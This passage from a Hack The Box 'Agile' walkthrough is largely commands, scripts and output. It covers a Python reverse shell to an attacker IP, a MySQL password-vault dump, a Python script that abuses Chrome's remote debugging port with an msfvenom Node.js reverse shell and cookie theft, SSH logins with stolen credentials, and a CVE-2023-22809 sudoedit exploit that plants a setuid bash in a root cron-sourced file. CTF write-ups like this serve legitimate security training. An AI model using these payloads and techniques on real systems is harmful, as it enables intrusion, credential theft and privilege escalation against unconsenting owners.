
Refer to Python #1 payload in Reverse Shell Generator, creating a Python Reverse Shell:
import sys,socket,os,pty;s=socket.socket();s.connect(("10.10.16.11",8888));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")
Listening shell:
Execute payload:

Got shell:
root@kali:~/htb/Machines/Agile# nc -lnvp 8888
listening on [any] 8888 ...
connect to [10.10.16.11] from (UNKNOWN) [10.129.228.212] 49930
(venv) www-data@agile:/app/app$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
Lateral Movement
www-data -> corum
(venv) www-data@agile:/app/app$ grep -v nologin /etc/passwd
root:x:0:0:root:/root:/bin/bash
sync:x:4:65534:sync:/bin:/bin/sync
pollinate:x:105:1::/var/cache/pollinate:/bin/false
corum:x:1000:1000:corum:/home/corum:/bin/bash
mysql:x:109:112:MySQL Server,,,:/nonexistent:/bin/false
runner:x:1001:1001::/app/app-testing/:/bin/sh
edwards:x:1002:1002::/home/edwards:/bin/bash
dev_admin:x:1003:1003::/home/dev_admin:/bin/bash
_laurel:x:999:999::/var/log/laurel:/bin/false
(venv) www-data@agile:/app/app$ ls -la /app/
total 36
drwxr-xr-x 6 root root 4096 Mar 8 15:30 .
drwxr-xr-x 20 root root 4096 Feb 20 23:29 ..
drwxr-xr-x 3 root root 4096 Jan 23 2023 .pytest_cache
drwxr-xr-x 5 corum runner 4096 Feb 8 16:29 app
drwxr-xr-x 9 runner runner 4096 Feb 8 16:36 app-testing
-r--r----- 1 dev_admin www-data 88 Jan 25 2023 config_prod.json
-r--r----- 1 dev_admin runner 99 Jan 25 2023 config_test.json
-rwxr-xr-x 1 root runner 557 Aug 4 07:15 test_and_update.sh
drwxrwxr-x 5 root dev_admin 4096 Feb 8 16:29 venv
/app/config_prod.json is readable by www-data.
I got DB credential superpassuser:dSA6l7q*yIVs$39Ml6ywvgK so login mysql.
(venv) www-data@agile:/app/app$ mysql -u superpassuser -p'dSA6l7q*yIVs$39Ml6ywvgK' superpass
mysql: [Warning] Using a password on the command line interface can be insecure.
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A
Welcome to the MySQL monitor. Commands end with ; or \g.
Your MySQL connection id is 265
Server version: 8.0.32-0ubuntu0.22.04.2 (Ubuntu)
Copyright (c) 2000, 2023, Oracle and/or its affiliates.
Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
mysql> SHOW TABLES;
+---------------------+
| Tables_in_superpass |
+---------------------+
| passwords |
| users |
+---------------------+
2 rows in set (0.01 sec)
mysql> DESC passwords;
+-------------------+--------------+------+-----+---------+----------------+
| Field | Type | Null | Key | Default | Extra |
+-------------------+--------------+------+-----+---------+----------------+
| id | int | NO | PRI | NULL | auto_increment |
| created_date | datetime | YES | | NULL | |
| last_updated_data | datetime | YES | | NULL | |
| url | varchar(256) | YES | | NULL | |
| username | varchar(256) | YES | | NULL | |
| password | varchar(256) | YES | | NULL | |
| user_id | int | YES | MUL | NULL | |
+-------------------+--------------+------+-----+---------+----------------+
7 rows in set (0.00 sec)
mysql> SELECT id,username,password,url FROM passwords;
+----+----------+----------------------+----------------+
| id | username | password | url |
+----+----------+----------------------+----------------+
| 3 | 0xdf | 762b430d32eea2f12970 | hackthebox.com |
| 4 | 0xdf | 5b133f7a6a1c180646cb | mgoblog.com |
| 6 | corum | 47ed1e73c955de230a1d | mgoblog |
| 7 | corum | 9799588839ed0f98c211 | ticketmaster |
| 8 | corum | 5db7caa1d13cc37c9fc2 | agile |
+----+----------+----------------------+----------------+
5 rows in set (0.00 sec)
I got corum's password so try to login SSH.
root@kali:~/htb/Machines/Agile# ssh corum@superpass.htb # enter 5db7caa1d13cc37c9fc2
corum@superpass.htb's password:
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.0-60-generic x86_64)
* Documentation: https://help.ubuntu.com
* Management: https://landscape.canonical.com
* Support: https://ubuntu.com/advantage
This system has been minimized by removing packages and content that are
not required on a system that users do not log into.
To restore this content, you can run the 'unminimize' command.
The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.
Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Aug 4 07:34:50 2023 from 10.10.16.11
corum@agile:~$
Got corum shell.
By the way, the password hash in the users table could not be cracked.
corum -> edwards
corum@agile:~$ ps auxwww
USER PID %CPU %MEM VSZ RSS TTY STAT START TIME COMMAND
(snip)
runner 7181 2.4 2.5 33990560 101892 ? Sl 07:38 0:00 /usr/bin/google-chrome --allow-pre-commit-input --crash-dumps-dir=/tmp --disable-background-networking --disable-client-side-phishing-detection --disable-default-apps --disable-gpu --disable-hang-monitor --disable-popup-blocking --disable-prompt-on-repost --disable-sync --enable-automation --enable-blink-features=ShadowDOMV0 --enable-logging --headless --log-level=0 --no-first-run --no-service-autorun --password-store=basic --remote-debugging-port=41829 --test-type=webdriver --use-mock-keychain --user-data-dir=/tmp/.com.google.Chrome.D04o5w --window-size=1420,1080 data:,
corum@agile:~$ ss -pantu
Netid State Recv-Q Send-Q Local Address:Port Peer Address:Port Process
(snip)
tcp LISTEN 0 10 127.0.0.1:41829 0.0.0.0:*
41829/tcp is open and is used by Google Chrome --remote-debugging-port option.
GET /json/version
Browser version metadata
GET /json or /json/list
A list of all available websocket targets.
There are various endpoints so I try it.
corum@agile:~$ curl http://localhost:41829/json/version
{
"Browser": "HeadlessChrome/108.0.5359.94",
"Protocol-Version": "1.3",
"User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/108.0.5359.94 Safari/537.36",
"V8-Version": "10.8.168.21",
"WebKit-Version": "537.36 (@713576b895246504ccc6b92c2fb8ce2d60194074)",
"webSocketDebuggerUrl": "ws://localhost:41829/devtools/browser/b169f9d7-3e30-496e-a0fc-0d38fcb6e495"
}
corum@agile:~$ curl http://localhost:41829/json
[ {
"description": "",
"devtoolsFrontendUrl": "/devtools/inspector.html?ws=localhost:41829/devtools/page/5AFFEE7387635A8FECFF1B3DA927A44D",
"id": "5AFFEE7387635A8FECFF1B3DA927A44D",
"title": "SuperPassword 🦸",
"type": "page",
"url": "http://test.superpass.htb/",
"webSocketDebuggerUrl": "ws://localhost:41829/devtools/page/5AFFEE7387635A8FECFF1B3DA927A44D"
} ]
These endpoints is usable.
This port is used as Chrome DevTools Protocol (CDP).
Reading Basics: Using DevTools as protocol client section in CDP document, I understood this to be avaialbe as follows:
- Launch Chrome browser with
--remote-debugging-port=<port>option - Get WebSocket target available for debugging at
http://localhost:<port>/jsonURL - Connect WebSocket target to exchange JSON message
- Sending JSON message is like
{"id":<random num>, "method":"<method>","params":{"key":"value"}}
Available methods can be found by clicking on Domain in the left pane of the CDP document.
For example, Page.navigate.

Also, there is auxiliary/gather/chrome_debugger module in Metasploit Framework, so you can read the code in this module to learn how to use CDP.
In this, Page.navigate and Runtime.evaluate method is used to get the arbitrary file.
Since I don't think there is WebSocket client in target machine, so I try SSH local port forwarding to 41829/tcp and make a WebSocket connection from the kali machine.
In kali:
root@kali:~/htb/Machines/Agile# ssh -L 41829:127.0.0.1:41829 -N corum@superpass.htb # enter 5db7caa1d13cc37c9fc2
corum@superpass.htb's password:
I try Runtime.evaluate method:
root@kali:~/htb/Machines/Agile# curl localhost:41829/json
[ {
"description": "",
"devtoolsFrontendUrl": "/devtools/inspector.html?ws=localhost:41829/devtools/page/443FEBFF301C2EA07723B7374A0E69B6",
"id": "443FEBFF301C2EA07723B7374A0E69B6",
"title": "SuperPassword 🦸",
"type": "page",
"url": "http://test.superpass.htb/",
"webSocketDebuggerUrl": "ws://localhost:41829/devtools/page/443FEBFF301C2EA07723B7374A0E69B6"
} ]
root@kali:~/htb/Machines/Agile# wscat --no-color --connect ws://localhost:41829/devtools/page/443FEBFF301C2EA07723B7374A0E69B6
Connected (press CTRL+C to quit)
> {"id":1234,"method":"Runtime.evaluate","params":{"expression":"document.documentElement.outerHTML"}}
< {"id":1234,"result":{"result":{"type":"string","value":"<html lang=\"en\"><head>(snip)<title>SuperPassword \ud83e\uddb8</title>(snip)</html>"}}}
Got it.
Next, I thought I could do RCE, so I generated a javascript payload in msfvenom and ran it, but it failed because global is not defined error occured.
cdp-exploit.py: trying Runtime.evaluate RCE
root@kali:~/htb/Machines/Agile# msfvenom -p nodejs/shell_reverse_tcp LHOST=10.10.16.11 LPORT=8888
[-] No platform was selected, choosing Msf::Module::Platform::NodeJS from the payload
[-] No arch selected, selecting arch: nodejs from the payload
No encoder specified, outputting raw payload
Payload size: 799 bytes
(function(){ var require = global.require || global.process.mainModule.constructor._load; if (!require) return; var cmd = (global.process.platform.match(/^win/i)) ? "cmd" : "/bin/sh"; var net = require("net"), cp = require("child_process"), util = require("util"), sh = cp.spawn(cmd, []); var client = this; var counter=0; function StagerRepeat(){ client.socket = net.connect(8888, "10.10.16.11", function() { client.socket.pipe(sh.stdin); if (typeof util.pump === "undefined") { sh.stdout.pipe(client.socket); sh.stderr.pipe(client.socket); } else { util.pump(sh.stdout, client.socket); util.pump(sh.stderr, client.socket); } }); socket.on("error", function(error) { counter++; if(counter<= 10){ setTimeout(function() { StagerRepeat();}, 5*1000); } else process.exit(); }); } StagerRepeat(); })();
from websockets.sync.client import connect
import requests
import random
import json
s = requests.Session()
# s.proxies = {"http":"http://127.0.0.1:8080"}
def get_websocket_debugger_url():
res = s.get("http://localhost:41829/json")
return res.json()[0]["webSocketDebuggerUrl"]
def send_payload(websocket_debugger_url, wsdata):
with connect(websocket_debugger_url) as websocket:
websocket.send(json.dumps(wsdata))
message = websocket.recv()
print(json.dumps(json.loads(message), indent=2))
if __name__ == "__main__":
websocket_debugger_url = get_websocket_debugger_url()
payload = '(function(){ var require = global.require || global.process.mainModule.constructor._load; if (!require) return; var cmd = (global.process.platform.match(/^win/i)) ? "cmd" : "/bin/sh"; var net = require("net"), cp = require("child_process"), util = require("util"), sh = cp.spawn(cmd, []); var client = this; var counter=0; function StagerRepeat(){ client.socket = net.connect(8888, "10.10.16.11", function() { client.socket.pipe(sh.stdin); if (typeof util.pump === "undefined") { sh.stdout.pipe(client.socket); sh.stderr.pipe(client.socket); } else { util.pump(sh.stdout, client.socket); util.pump(sh.stderr, client.socket); } }); socket.on("error", function(error) { counter++; if(counter<= 10){ setTimeout(function() { StagerRepeat();}, 5*1000); } else process.exit(); }); } StagerRepeat(); })();'
wsdata = {
"id": random.randrange(10),
"method": "Runtime.evaluate",
"params": {"expression": payload},
}
send_payload(websocket_debugger_url, wsdata)
Execute this Python script:
root@kali:~/htb/Machines/Agile# python3 cdp-exploit.py
{
"id": 5,
"result": {
"result": {
"type": "object",
"subtype": "error",
"className": "ReferenceError",
"description": "ReferenceError: global is not defined\n at <anonymous>:1:28\n at <anonymous>:1:796",
"objectId": "2893125973295226337.4.1"
},
"exceptionDetails": {
"exceptionId": 1,
"text": "Uncaught",
"lineNumber": 0,
"columnNumber": 27,
"scriptId": "82",
"stackTrace": {
"callFrames": [
{
"functionName": "",
p "scriptId": "82",
"url": "",
"lineNumber": 0,
"columnNumber": 27
},
{
"functionName": "",
"scriptId": "82",
"url": "",
"lineNumber": 0,
"columnNumber": 795
}
]
},
"exception": {
"type": "object",
"subtype": "error",
"className": "ReferenceError",
"description": "ReferenceError: global is not defined\n at <anonymous>:1:28\n at <anonymous>:1:796",
"objectId": "2893125973295226337.4.2"
}
}
}
}
So looking for other methods that could be exploited, I found the Network.getCookies method, which can retrieve cookies.
Rewriting Python script to use this method and execute it.
cdp-exploit.py: trying Network.getCookies
from websockets.sync.client import connect
import requests
import random
import json
s = requests.Session()
# s.proxies = {"http":"http://127.0.0.1:8080"}
def get_websocket_debugger_url():
res = s.get("http://localhost:41829/json")
return res.json()[0]["webSocketDebuggerUrl"]
def send_payload(websocket_debugger_url, wsdata):
with connect(websocket_debugger_url) as websocket:
websocket.send(json.dumps(wsdata))
message = websocket.recv()
print(json.dumps(json.loads(message), indent=2))
if __name__ == "__main__":
websocket_debugger_url = get_websocket_debugger_url()
wsdata = {
"id": random.randrange(10),
"method": "Network.getCookies",
}
send_payload(websocket_debugger_url, wsdata)
Execute this Python script:
root@kali:~/htb/Machines/Agile# python3 cdp-exploit.py
{
"id": 7,
"result": {
"cookies": [
{
"name": "session",
"value": ".eJwlzjkOwjAQAMC_uKbYy2snn0HeS9AmpEL8HSTmBfNu9zryfLT9dVx5a_dntL1x6FxEI2cX1lATrF6KSgYjJDcv24LSRQu2bqQwPXGymkPMEIMAjpDRO6DjcqqZqoOjWBxRQYEsmXHgxCUhsNzTRhh2kvaLXGce_w22zxef3y7n.ZM2Ikw.Oeb6Ej37sg6pV-l3Zb67T0xgQ6Q",
"domain": "test.superpass.htb",
"path": "/",
"expires": -1,
"size": 215,
"httpOnly": true,
"secure": false,
"session": true,
"priority": "Medium",
"sameParty": false,
"sourceScheme": "NonSecure",
"sourcePort": 80
},
{
"name": "remember_token",
"value": "1|3561544e39b687cb79496e2ef1984569c0c713df50e791229d6bdd3c39886c529c78b39f0b8c281ac775ea45fcad4e13f088520e49ebd7795207aea9f2e3b259",
"domain": "test.superpass.htb",
"path": "/",
"expires": 1722727443.943388,
"size": 144,
"httpOnly": true,
"secure": false,
"session": false,
"priority": "Medium",
"sameParty": false,
"sourceScheme": "NonSecure",
"sourcePort": 80
}
]
}
}
I got session Cookie in test.superpass.htb domain.
root@kali:~/htb/Machines/Agile# curl -D- http://superpass.htb/ -H "Host: test.superpass.htb"
HTTP/1.1 301 Moved Permanently
Server: nginx/1.18.0 (Ubuntu)
Date: Fri, 04 Aug 2023 23:30:24 GMT
Content-Type: text/html
Content-Length: 178
Connection: keep-alive
Location: http://superpass.htb
<html>
<head><title>301 Moved Permanently</title></head>
<body>
<center><h1>301 Moved Permanently</h1></center>
<hr><center>nginx/1.18.0 (Ubuntu)</center>
</body>
</html>
When I make HTTP request to this machine's IP with test.superpass.htb host, it returned 301 response status code.
It may be that the test.superpass.htb host is implemented to allow access only from the localhost.
So I try local port forwarding to 80/tcp and make a request.
In kali:
root@kali:~/htb/Machines/Agile# echo 127.0.0.1 test.superpass.htb | tee -a /etc/hosts
127.0.0.1 test.superpass.htb
root@kali:~/htb/Machines/Agile# ssh -L 41829:127.0.0.1:41829 -L 80:127.0.0.1:80 -N corum@superpass.htb # enter 5db7caa1d13cc37c9fc2
corum@superpass.htb's password:
Open http://test.superpass.htb/ in Chrome and Chrome DevTools, set Cookie:

Open http://test.superpass.htb/vault:

Got edwards:d07867c6267dcb5df0af credential for agile Site so I try SSH login.
root@kali:~/htb/Machines/Agile# ssh edwards@superpass.htb # enter d07867c6267dcb5df0af
edwards@superpass.htb's password:
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.0-60-generic x86_64)
* Documentation: https://help.ubuntu.com
* Management: https://landscape.canonical.com
* Support: https://ubuntu.com/advantage
This system has been minimized by removing packages and content that are
not required on a system that users do not log into.
To restore this content, you can run the 'unminimize' command.
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings
The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.
Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Aug 4 09:25:10 2023 from 10.10.16.11
edwards@agile:~$
Got it.
edwards -> root
Download pspy and execute:
In kali:
root@kali:~/htb/Machines/Agile# curl -sLo pspy https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64s
root@kali:~/htb/Machines/Agile# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.228.212 - - [05/Aug/2023 08:43:57] "GET /pspy HTTP/1.1" 200 -
In target:
edwards@agile:~$ curl -s 10.10.16.11/pspy -O
edwards@agile:~$ chmod +x pspy
edwards@agile:~$ ./pspy
pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d
██▓███ ██████ ██▓███ ▓██ ██▓
▓██░ ██▒▒██ ▒ ▓██░ ██▒▒██ ██▒
▓██░ ██▓▒░ ▓██▄ ▓██░ ██▓▒ ▒██ ██░
▒██▄█▓▒ ▒ ▒ ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
▒██▒ ░ ░▒██████▒▒▒██▒ ░ ░ ░ ██▒▓░
▒▓▒░ ░ ░▒ ▒▓▒ ▒ ░▒▓▒░ ░ ░ ██▒▒▒
░▒ ░ ░ ░▒ ░ ░░▒ ░ ▓██ ░▒░
░░ ░ ░ ░ ░░ ▒ ▒ ░░
░ ░ ░
░ ░
Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scanning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
done
2023/08/04 23:44:56 CMD: UID=1002 PID=35767 | ./pspy
(snip)
2023/08/04 23:47:01 CMD: UID=0 PID=35977 | /bin/bash -c source /app/venv/bin/activate
(snip)
2023/08/04 23:51:01 CMD: UID=0 PID=36048 | /bin/bash -c source /app/venv/bin/activate
/app/venv/bin/activate is executed by cron.
edwards@agile:~$ id
uid=1002(edwards) gid=1002(edwards) groups=1002(edwards)
edwards@agile:~$ ls -la /app/venv/bin/activate
-rw-rw-r-- 1 root dev_admin 1976 Aug 4 09:33 /app/venv/bin/activate
But edwards can not modify /app/venv/bin/activate.
edwards@agile:~$ sudo -l
[sudo] password for edwards:
Matching Defaults entries for edwards on agile:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty
User edwards may run the following commands on agile:
(dev_admin : dev_admin) sudoedit /app/config_test.json
(dev_admin : dev_admin) sudoedit /app/app-testing/tests/functional/creds.txt
Looking for privilege escalation regarding sudoedit, I found CVE-2023-22809.
In Sudo before 1.9.12p2, the sudoedit (aka -e) feature mishandles extra arguments passed in the user-provided environment variables (SUDO_EDITOR, VISUAL, and EDITOR), allowing a local attacker to append arbitrary entries to the list of files to process. This can lead to privilege escalation. Affected versions are 1.8.0 through 1.9.12.p1. The problem exists because a user-specified editor may contain a "--" argument that defeats a protection mechanism, e.g., an EDITOR='vim -- /path/to/extra/file' value.
Sudoedit Privilege Escalation | Exploit Notes
Exploitation (CVE-2023-22809)
export EDITOR="vim -- /etc/sudoers" sudoedit /opt/example.txt
edwards@agile:~$ sudo --version
Sudo version 1.9.9
Sudoers policy plugin version 1.9.9
Sudoers file grammar version 48
Sudoers I/O plugin version 1.9.9
Sudoers audit plugin version 1.9.9
This CVE is available.
edwards@agile:~$ EDITOR="vim -- /app/venv/bin/activate" sudoedit -u dev_admin /app/config_test.json
sudoedit: --: Permission denied
2 files to edit
When /app/venv/bin/activate opens in VIM, append it to add command to copy /tmp/rootbash as the following:
# This file must be used with "source bin/activate" *from bash*
# you cannot run it directly
cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash
deactivate () {
# (snip)
and save it and close.
Wait a minutes, I have /tmp/rootbash.
edwards@agile:~$ ./pspy | grep activate
2023/08/05 00:04:07 CMD: UID=1002 PID=36606 | grep --color=auto activate
2023/08/05 00:05:01 CMD: UID=0 PID=36621 | /bin/bash -c source /app/venv/bin/activate
^C
edwards@agile:~$ ls -la /tmp/rootbash
-rwsr-sr-x 1 root root 1396520 Aug 5 00:05 /tmp/rootbash
edwards@agile:~$ /tmp/rootbash -p
edwards@agile:~# id
uid=1002(edwards) gid=1002(edwards) euid=0(root) egid=0(root) groups=0(root),1002(edwards)
Got root shell.
Flag
user flag is in /home/corum directory.
root